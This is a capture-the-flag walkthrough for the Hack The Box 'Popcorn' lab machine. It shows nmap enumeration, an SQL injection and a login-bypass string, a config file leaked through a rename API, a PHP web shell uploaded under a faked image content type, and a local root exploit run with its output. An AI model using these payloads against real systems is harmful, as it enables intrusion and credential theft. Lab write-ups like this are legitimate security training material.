 ```yaml
---

title: 🟠 HTB - Popcorn
author: Acivik
date: 2025-01-24 20:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, Popcorn, walkthrough, medium, linux]

---
```


![https://i.ibb.co/b6xZz9t/Popcorn.png](https://i.ibb.co/b6xZz9t/Popcorn.png)

---

# <span style="color:#AA0E1C"><b># System Info & Credentials</b></span>

| IP: | 10.10.10.6 |
| --- | --- |
| OS: | Ubuntu 9.10 "Karmic Koala” |
| Hosts: | popcorn.htb |
| Credentials: | torrent:SuperSecret!! |

# <span style="color:#AA0E1C"><b># Nmap Result</b></span>

```bash
root@kali:~/HTB/popcorn# nmap -p22,80 -sT 10.10.10.6 --min-rate 10000 -sV -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 13:48 UTC
Nmap scan report for 10.10.10.6 (10.10.10.6)
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12
|_http-title: Did not follow redirect to http://popcorn.htb/
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: Host: popcorn.hackthebox.gr; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.90 seconds
root@kali:~/HTB/popcorn#
```

# <span style="color:#AA0E1C"><b># Open Ports & To-Do</b></span>

| 22/tcp SSH | OpenSSH 5.1p1-6ubuntu2| Need Credentials |
| --- | --- | --- |
| 80/tcp HTTP | Apache/2.2.12 | Web Enumerate |

# <span style="color:#AA0E1C"><b># Enumeration Notes</b></span>

## <span style="color:#0096FF">Web-Enum:</span>

![https://i.ibb.co/ZG8ngW6/resim-2025-01-23-141548690.png](https://i.ibb.co/ZG8ngW6/resim-2025-01-23-141548690.png)

### <span style="color:#FFC300">Directory & Files</span>

```
/index/
/test/ -> phpinfo() page
/torrent/ -> TorrentHoster
	/torrents.php
	/comment
	/config.php
	/database/th_database.sql -> admin:admin12
	/login
	/upload.php
	/upload -> uploads directory
	/readme
	/lib -> Index of /torrent/lib
/rename/ -> api
```

### <span style="color:#FFC300">/torrent/</span>

![https://i.ibb.co/YhsKdDw/resim-2025-01-23-142222893.png](https://i.ibb.co/YhsKdDw/resim-2025-01-23-142222893.png)

# <span style="color:#AA0E1C"><b># Vulnerabilities</b></span>

### <span style="color:#FFC300">Rename Files</span>

We can change files name with rname api. 

For example, you can read the config.php file by changing its name to config.txt.

```bash
/rename/
		Renamer API Syntax: index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name
```

```bash
/rename/index.php?filename=/var/www/torrent/config.php&newfilename=/var/www/torrent/lib/config.txt
	  $CFG->dbName = "torrenthoster";	//db name
	  $CFG->dbUserName = "torrent";    //db username
	  $CFG->dbPassword = "SuperSecret!!";	//db password
```

### <span style="color:#FFC300">Authentication Bypass</span>

```bash
/torrent/login (Authentication Bypass) -> admin' or 1='1
```

### <span style="color:#FFC300">SQL Injection</span>

```bash
/torrent/torrents.php (There is sqli on search box) -> test' union select null,group_concat(schema_name),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from information_schema.schemata-- -
```

### <span style="color:#FFC300">File Upload (Authenticated)</span>

![https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png](https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png)

# <span style="color:#AA0E1C"><b># Foothold</b></span>

## <span style="color:#0096FF">SQL Injection</span>

```bash
/torrent/torrents.php (There is sqli on search box) -> test' union select null,group_concat(schema_name),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from information_schema.schemata-- -
database:information_schema
database:torrenthoster
	tables:ban
	tables:categories
	tables:comments
	tables:log
	tables:namemap
	tables:news
	tables:subcategories
	tables:users
		columns:id
		columns:userName
		columns:password
		columns:privilege
		columns:email
		columns:joined
		columns:lastconnect
	
dumped -> Admin : d5bfedcee289e5e05b86daad8ee3e2e2 : admin : admin@yourdomain.com (couldn't crack this hash)
```

## <span style="color:#0096FF">Upload Shell</span>

![https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png](https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png)

**Request Body:**

Changed the content type header from `application/x-php` to `image/jpeg`

```bash
-----------------------------239990188727439809613051752681
Content-Disposition: form-data; name="file"; filename="cmd.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]);?>

-----------------------------239990188727439809613051752681
Content-Disposition: form-data; name="submit"

Submit Screenshot
-----------------------------239990188727439809613051752681--

```

**Response Body:**

```bash
Upload: cmd.php
Type: image/jpeg
Size: 0.029296875 Kb
Upload Completed.
Please refresh to see the new screenshot.
```

```bash
http://popcorn.htb/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

# <span style="color:#AA0E1C"><b># Privilege Escalation</b></span>

check os version

```bash
www-data@popcorn:/home/george$ uname -a
uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/home/george$ cat /etc/*release*
cat /etc/*release*
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=9.10
DISTRIB_CODENAME=karmic
DISTRIB_DESCRIPTION="Ubuntu 9.10"
www-data@popcorn:/home/george$
```

[https://www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)

```bash
www-data@popcorn:/tmp$ ls
privesc.sh  vgauthsvclog.txt.0	vmware-root
www-data@popcorn:/tmp$ ./privesc.sh 
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: 
root@popcorn:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@popcorn:/tmp#
```
